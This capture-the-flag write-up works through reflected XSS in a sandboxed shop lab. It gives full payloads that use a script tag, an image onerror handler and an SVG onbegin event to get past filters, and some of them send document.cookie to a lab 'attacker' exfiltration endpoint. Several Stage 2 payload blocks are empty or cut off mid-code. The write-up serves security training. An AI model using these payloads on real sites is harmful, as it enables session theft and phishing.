# Task 0. Reflected XSS - Basic Search


## **Task 0 Description**

### 0. Reflected XSS - Basic Search

The search bar reflects your input directly into the page heading. NexusShop's developers believed that showing the query back to the user was harmless. It is not. Your goal is to prove that anything the server echoes without encoding can become a script execution point.

This is the classic entry point that compromised thousands of real applications. Master the logic here every harder mission builds on it.

#### Stage URLs

| Stage | URL | What Changes |
| :--- | :--- | :--- |
| 1 | `/search?q=TESTINPUT` | No filter |
| 2 | `/search/filtered?q=TESTINPUT` | `<script>` tags blocked |
| 3 | `/search/advanced?q=TESTINPUT&min_price=&max_price=` | Common event handlers blocked |

#### Mission Objectives
1. Insert `TESTINPUT123` and find it in the page heading.
2. Confirm the browser renders it as HTML, not escaped text.
3. Achieve JavaScript execution with a harmless proof.
4. Send cookie or exfil data to the C2 dashboard.
5. Submit your stage token to `/search/api/track`.

#### Hints
* **Stage 1:** The simplest approach works here. What tag causes a browser to run code?
* **Stage 2:** `<script>` is gone. Which HTML element fires an event when something fails to load?
* **Stage 3:** `onerror`, `onload`, and common handlers are blocked. The browser supports many more. Think about SVG animation events.
* The reflected heading appears before the hidden token use `DELAY_TOKEN`.

#### What Real Attackers Do Here
A reflected XSS in a search bar becomes a phishing weapon. The attacker crafts a link like:

```text
web0x0c.hbtn/search?q=<PAYLOAD>
```

…and sends it to victims. The victim sees a legitimate domain in the URL. The payload executes silently. Cookies, tokens, and keystrokes are sent to the attacker's C2.

#### Verification Checklist
- [ ] DevTools → Network shows `/attacker/api/exfil`
- [ ] DevTools → Network shows `/search/api/track`
- [ ] C2 dashboard at `/attacker` shows cookie/data evidence
- [ ] Stage 3 tracking response contains the flag

#### Stage Reference Payloads

**Stage 1 - Direct script injection** `/search?q=...`
```html
<script>setTimeout(function(){var t=document.getElementById("tracking-id").innerText;fetch("/attacker/api/exfil",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({type:"cookies",data:document.cookie||"no-readable-cookie",level:1,stage:1})});fetch("/search/api/track?t="+t)},500)</script>
```
* **What this does:** Uses a `<script>` tag (allowed in Stage 1), waits 500 ms for `tracking-id` to exist, exfils cookies to C2, then submits the token.

**Stage 2 - `` onerror bypass** `/search/filtered?q=...`
```html

```
* **What this does:** `src=x` always fails. The browser fires `onerror`. No `<script>` tag required.

**Stage 3 - SVG animation event bypass** `/search/advanced?q=...`
```html
<svg><animate attributeName=x dur=1s onbegin='setTimeout(function(){var t=document.getElementById("tracking-id").innerText;fetch("/attacker/api/exfil",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({type:"cookies",data:document.cookie||"no-readable-cookie",level:1,stage:3})});fetch("/search/api/track?t="+t).then(r=>r.json()).then(d=>console.log(d))},500)'></animate></svg>
```
* **What this does:** Uses SVG's `onbegin` animation event a less commonly blocked handler. Demonstrates that filtering a short list of event names is insufficient.

**Repo:**
* GitHub repository: `dlh-cyber_security`
* Directory: `web_application_security/websec_0x0C`
* File: `0-flag.txt`


## **Solution**


- Start sandbox `cyber_websec_0x0c`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.242.67 web0x0c.hbtn" | sudo tee -a /etc/hosts
```
- Open Firefox on kali and navigate to [http://web0x0c.hbtn/search?q=TESTINPUT123](http://web0x0c.hbtn/search?q=TESTINPUT123)

- Inspect the reflection

   1. Press `F12` to open Developer Tools.
   2. Open the Inspector tab (Firefox).
   3. Press `Ctrl+F` within the Elements panel.
   4. Search for `TESTINPUT123`.
   5. Locate the HTML element containing the marker, ideally the search heading.





The relevant HTML is:

```html
<h2 class="text-xl font-bold mb-6">
  Showing results for: TESTINPUT123
</h2>
```

### Test HTML injection

Objective: Determine whether the `q` parameter is inserted as HTML markup or safely escaped as text.

### Action

In the NexusShop search field, replace `TESTINPUT123` with:

```html
<strong id="xss-probe">HTML_PROBE</strong>
```

Click Search.

### Payload explanation

| Component        | Purpose                                             |
| ---------------- | --------------------------------------------------- |
| `<strong>`       | HTML element that makes text bold                   |
| `id="xss-probe"` | Unique identifier for locating our injected element |
| `HTML_PROBE`     | Visible marker confirming where the input appears   |
| `</strong>`      | Closes the injected HTML element                    |

This payload does not execute JavaScript. It simply tests HTML interpretation.





The screenshot confirms HTML injection is possible in the NexusShop search heading.

DevTools shows:

```html
<h2 class="text-xl font-bold mb-6">
  Showing results for:
  <strong id="xss-probe">HTML_PROBE</strong>
</h2>
```

The browser has created an actual `<strong>` element rather than displaying its markup as text.

We have confirmed HTML injection, but not yet JavaScript execution.

### Confirm JavaScript execution

Objective: Demonstrate that the reflected HTML injection can execute JavaScript in the NexusShop origin.

- Prepare Developer Tools

   1. Open the Console tab using `F12`.
   2. Enable Persist Logs (Firefox) .
   3. Clear previous console messages.

- Execute the test payload

   Replace the search input with:

   ```js
   <script>console.log("XSS_STAGE1_EXECUTED")</script>
   ```

   Click Search.

- Alternatively, navigate directly to:

  [http://web0x0c.hbtn/search?q=%3Cscript%3Econsole.log(%22XSS_STAGE1_EXECUTED%22)%3C%2Fscript%3E](http://web0x0c.hbtn/search?q=%3Cscript%3Econsole.log(%22XSS_STAGE1_EXECUTED%22)%3C%2Fscript%3E)

### Payload explanation

| Component               | Purpose                                                   |
| ----------------------- | --------------------------------------------------------- |
| `<script>`              | Tells the browser to interpret its contents as JavaScript |
| `console.log()`         | Writes a message to the Developer Tools console           |
| `"XSS_STAGE1_EXECUTED"` | Unique execution-proof marker                             |
| `</script>`             | Closes the JavaScript element                             |

The URL uses percent encoding to transport the HTML payload through the `q` query parameter.



The screenshot confirms successful reflected XSS with JavaScript execution.

We have three pieces of evidence:

1. The URL contains the injected `<script>` payload.
2. DevTools shows the `<script>` element inside the `<h2>` search heading.
3. The Console displays `XSS_STAGE1_EXECUTED`, proving JavaScript actually ran.

This establishes that the vulnerability is exploitable, not just an HTML injection issue.

### Demonstrate C2 exfiltration

**Objective**: Use the confirmed XSS vulnerability to transmit data from NexusShop to the lab's C2 endpoint.

We'll test exfiltration separately from token submission so we can verify each operation independently.

- Prepare Developer Tools

  1. Open the Network tab.
  2. Enable Persist Logs.
  3. Select the XHR filter, if available.
  4. Clear existing network requests.

- Execute the payload

  Replace the NexusShop search input with:

  ```js
  <script>
  fetch("/attacker/api/exfil",{
    method:"POST",
    headers:{"Content-Type":"application/json"},
    body:JSON.stringify({
      type:"cookies",
      data:document.cookie||"no-readable-cookie",
      level:1,
      stage:1
    })
  }).then(r=>console.log("EXFIL_STATUS:",r.status))
  .catch(e=>console.error("EXFIL_ERROR:",e))
  </script>
  ```

  Click Search.

- Understand the payload

  | Component | Explanation |
  |---|---|
  | `fetch()` | Browser API for sending HTTP requests |
  | `/attacker/api/exfil` | Lab C2 data-collection endpoint |
  | `method:"POST"` | Sends data in the HTTP request body |
  | `Content-Type:application/json` | Identifies the request body as JSON |
  | `document.cookie` | Reads cookies accessible to JavaScript for the   current origin |
  | `\|\|"no-readable-cookie"` | Supplies a fallback if no readable cookies   exist |
  | `level:1` | Identifies the lab level |
  | `stage:1` | Identifies the current XSS stage |
  | `.then(...)` | Logs the HTTP response status |
  | `.catch(...)` | Logs request failures |

  The injected script executes in the NexusShop origin. Consequently, it can read JavaScript-accessible cookies and send HTTP requests to same-origin endpoints.

  Cookies with the `HttpOnly` attribute are not accessible through `document.cookie`.

- Verify the request

   In the Network tab, locate:

   ```
   POST /attacker/api/exfil
   ```

   Click the request and inspect:

   - Headers: Confirm `POST` and the request URL.
   - Request: Confirm the JSON payload was transmitted.
   - Response: Record the HTTP status and any response body.

   A successful endpoint will typically return a `2xx` status, although the exact response depends on the lab implementation.



- Evidence analysis

  - HTTP POST successful: `EXFIL_STATUS: 200` OK
  - Request payload: `{"type":"cookies","data":"no-readable-cookie","level":1,"stage":1}`
  - Server response: `Data exfiltrated successfully`

- Open a separate browser tab: http://web0x0c.hbtn/attacker



C2 dashboard: 1 record under Cookies


### Submit the tracking token

**Objective**: Read the hidden tracking token from the NexusShop DOM and submit it to `/search/api/track`.

- Return to the NexusShop tab, where the XSS payload executed.

- Execute this command in the Console

```js
const token = document.getElementById("tracking-id")?.textContent.trim();

console.log("TOKEN_FOUND:", Boolean(token));

if (token) {
    fetch("/search/api/track?t=" + encodeURIComponent(token))
        .then(async response => {
            const body = await response.text();

            console.log("TRACK_STATUS:", response.status);
            console.log("TRACK_RESPONSE:", body);
        })
        .catch(error => console.error("TRACK_ERROR:", error));
}
```

- Command explanation

| Component                       | Purpose                                                         |
| ------------------------------- | --------------------------------------------------------------- |
| `getElementById("tracking-id")` | Locates the hidden DOM element containing the stage token       |
| `textContent.trim()`            | Extracts the token and removes surrounding whitespace           |
| `Boolean(token)`                | Confirms that a nonempty token was retrieved                    |
| `fetch()`                       | Sends an HTTP GET request to the tracking endpoint              |
| `/search/api/track`             | NexusShop's token verification endpoint                         |
| `t=`                            | Query parameter containing the tracking token                   |
| `encodeURIComponent()`          | Safely encodes the token as a URL parameter                     |
| `response.status`               | Displays the server's HTTP status                               |
| `response.text()`               | Reads the response body, whether it contains JSON or plain text |


The screenshot confirms successful token submission.

| Verification                  | Result                   |
| ----------------------------- | ------------------------ |
| Hidden tracking token located | `TOKEN_FOUND: true`      |
| C2 exfiltration               | `200 OK` (previous step) |
| Tracking endpoint             | `GET /search/api/track`  |
| Tracking HTTP response        | `200 OK`                 |
| Tracking response body        | `{"status":"tracked"}`   |

**Important**: The response confirms that the token was tracked, but it does not contain a flag. According to the lab instructions, the Stage 3 tracking response should contain the flag.

We can now proceed to Stage 2.

## Stage 2: Filtered Reflected XSS

Step 1: Bypass the script-tag filter

### Objective

Demonstrate JavaScript execution when NexusShop blocks `<script>` tags but still permits HTML event handlers.

### 1. Open NexusShop Stage 2 (Filtered Search)

- http://web0x0c.hbtn/search/filtered

- Open DevTools → Console and clear previous messages.

### 2. Execute the Stage 2 test payload

Enter the following in the search field:

```

```

Click Search.

### 3. Understand the payload

| Component          | Purpose                                                    |
| ------------------ | ---------------------------------------------------------- |
| ``            | Creates an HTML image element                              |
| `src=x`            | Attempts to load an image from an invalid path             |
| `onerror`          | JavaScript event handler executed when image loading fails |
| `console.log(...)` | Produces a harmless execution marker                       |

### 4. Why this bypass works

The Stage 2 filter blocks `<script>` tags, but JavaScript execution in browsers is not limited to `<script>` elements.

For example:

```

```

When the browser attempts to load `x` as an image and the request fails, it dispatches an `error` event.

The `onerror` handler then executes JavaScript in the NexusShop origin.

This demonstrates the fundamental weakness of blacklist-based XSS filtering: blocking specific tags does not prevent execution through other HTML features.





The screenshot confirms that the `` technique successfully bypasses Stage 2's filtering.

### Evidence analysis

| Verification                           | Result |
| -------------------------------------- | ------ |
| Correct endpoint `/search/filtered`    |   ✅    |
| Filtered tab active                    |   ✅    |
| `` injection present in DOM       |   ✅    |
| Invalid image request returns 404      |   ✅    |
| Console displays `XSS_STAGE2_EXECUTED` |   ✅    |

Why the bypass works: Stage 2 blocks `<script>` elements but permits the `onerror` event handler. When the image fails to load, the browser executes JavaScript supplied in the handler.

This demonstrates that blocking specific HTML tags is not sufficient to prevent XSS.

## Stage 2: Step 2, C2 exfiltration

**Objective**: Demonstrate that the Stage 2 filter bypass can transmit JavaScript-accessible cookie data to the designated lab C2 endpoint.

### 1. Execute the payload

Remain on the Filtered tab and replace the search input with:

```html
console.log("STAGE2_EXFIL_STATUS:",r.status)).catch(e=>console.error("STAGE2_EXFIL_ERROR:",e))'>
```

Click Search.

### 2. Understand the payload

| Component             | Purpose                                      |
| --------------------- | -------------------------------------------- |
| `src=x`               | Causes an image-loading failure              |
| `onerror`             | Executes JavaScript without a `<script>` tag |
| `fetch()`             | Sends an HTTP request                        |
| `/attacker/api/exfil` | Lab C2 endpoint                              |
| `method:"POST"`       | Transmits a JSON request body                |
| `document.cookie`     | Retrieves JavaScript-accessible cookies      |
| `level:1`             | Identifies Task 0's level                    |
| `stage:2`             | Identifies Stage 2                           |
| `.then()`             | Logs the HTTP response status                |
| `.catch()`            | Reports request errors                       |

The critical difference from Stage 1 is that we are executing the exfiltration code through an HTML event handler instead of a `<script>` element.





The screenshot confirms that the Stage 2 XSS payload successfully transmitted data to the C2 endpoint.

## 1. Evidence analysis

| Verification      | Result                          |
| ----------------- | ------------------------------- |
| Endpoint          | `/search/filtered`              |
| Exploit technique | ``                 |
| C2 request        | `POST /attacker/api/exfil`      |
| HTTP status       | `200 OK`                        |
| Server response   | `Data exfiltrated successfully` |
| Level / Stage     | `1 / 2`                         |

The request payload was:

```json
{
  "type": "cookies",
  "data": "no-readable-cookie",
  "level": 1,
  "stage": 2
}
```

Important observation: The payload transmitted the fallback value `no-readable-cookie`, rather than actual cookie data.

This means the exploit successfully demonstrated JavaScript execution and data transmission, but not actual cookie theft. The distinction matters for the final report.

## Stage 2: Step 3, Submit the tracking token

**Objective**: Retrieve the Stage 2 tracking token from the DOM and submit it to the verification endpoint.

### 1. Execute this command

Remain on the current NexusShop `/search/filtered` page.

Open DevTools → Console and execute:

```js
(async () => {
    const token = document.getElementById("tracking-id")?.textContent.trim();

    console.log("STAGE2_TOKEN_FOUND:", Boolean(token));

    if (!token) return;

    const response = await fetch(
        "/search/api/track?t=" + encodeURIComponent(token)
    );

    console.log("STAGE2_TRACK_STATUS:", response.status);
    console.log("STAGE2_TRACK_RESPONSE:", await response.text());
})().catch(console.error);
```

### 2. Command explanation

| Component                       | Purpose                                  |
| ------------------------------- | ---------------------------------------- |
| `async () => {}`                | Defines an asynchronous function         |
| `getElementById("tracking-id")` | Finds the hidden stage token             |
| `textContent.trim()`            | Extracts the token                       |
| `Boolean(token)`                | Checks whether a token was found         |
| `encodeURIComponent(token)`     | Encodes the token for the URL            |
| `fetch()`                       | Sends a GET request to the tracking API  |
| `await response.text()`         | Reads the verification response          |
| `.catch(console.error)`         | Displays any execution or network errors |




The screenshot confirms that Stage 2 tracking succeeded.

| Verification            | Result                 |
| ----------------------- | ---------------------- |
| `STAGE2_TOKEN_FOUND`    | `true`                 |
| `STAGE2_TRACK_STATUS`   | `200`                  |
| `STAGE2_TRACK_RESPONSE` | `{"status":"tracked"}` |
| XSS execution           | Confirmed              |
| C2 data transmission    | Confirmed              |

We have successfully demonstrated that blocking `<script>` tags does not prevent XSS when executable HTML event handlers remain available.

## Stage 3: Advanced Reflected XSS

Step 1: Test the SVG animation event bypass

### Objective

Demonstrate JavaScript execution despite the advanced filter blocking `<script>` tags and common event handlers such as `onerror` and `onload`.

### 1. Navigate to Stage 3

Open
http://web0x0c.hbtn/search/advanced

Alternatively, click the Advanced search button.

### 2. Execute this test payload

Enter the following into the search field:

```svg
<svg><animate attributeName=x dur=1s onbegin='console.log("XSS_STAGE3_EXECUTED")'></animate></svg>
```

Click Search.


### 3. Understand the payload

| Component          | Purpose                                             |
| ------------------ | --------------------------------------------------- |
| `<svg>`            | Creates an SVG element                              |
| `<animate>`        | Defines an SVG animation                            |
| `attributeName=x`  | Specifies the attribute targeted by the animation   |
| `dur=1s`           | Sets the animation's duration to one second         |
| `onbegin`          | Executes an event handler when the animation begins |
| `console.log(...)` | Produces a harmless JavaScript execution marker     |

### 4. Why this bypass can work

Stage 3 blocks several common JavaScript execution vectors.

However, SVG supports SMIL animation events, including `beginEvent`, which can invoke JavaScript through the `onbegin` attribute.

The key difference is:

- Stage 2 uses an HTML image-loading error event (`onerror`).
- Stage 3 uses an SVG animation-start event (`onbegin`).

A filter that only removes known dangerous tags and event-handler attributes may overlook SVG-specific events.

This illustrates why blacklist-based sanitization is fundamentally unreliable. HTML and SVG provide numerous execution contexts beyond ordinary `<script>` elements.

### 5. Expected result

In DevTools → Console, look for:

```
XSS_STAGE3_EXECUTED
```

In DevTools → Inspector, check whether the application retained the `onbegin` attribute inside the injected SVG element.

For example:

```
<h2>
  Showing results for:
  <svg>
    <animate attributeName="x" dur="1s"
      onbegin='console.log("XSS_STAGE3_EXECUTED")'>
    </animate>
  </svg>
</h2>
```

### 6. Evidence to capture

Take a screenshot showing the `/search/advanced` URL, the SVG element in DevTools, and the execution marker in the Console.

Your next action: Execute the SVG payload and send me the screenshot.

Once verified, we'll proceed to Stage 3 C2 exfiltration, tracking-token submission, and flag retrieval.





The screenshot confirms that the advanced filter has been bypassed successfully.

## 1. Evidence analysis

| Verification                        | Result |
| ----------------------------------- | ------ |
| Correct endpoint `/search/advanced` |   ✅   |
| Advanced tab active                 |   ✅   |
| SVG `<animate>` element injected    |   ✅   |
| `onbegin` attribute preserved       |   ✅   |
| Console shows `XSS_STAGE3_EXECUTED` |   ✅   |

**Why this works**: The application's filtering does not account for SVG's `onbegin` event handler. The browser executes JavaScript when the SVG animation starts, even though the application blocks more familiar execution vectors.

## Stage 3: Step 2, C2 exfiltration

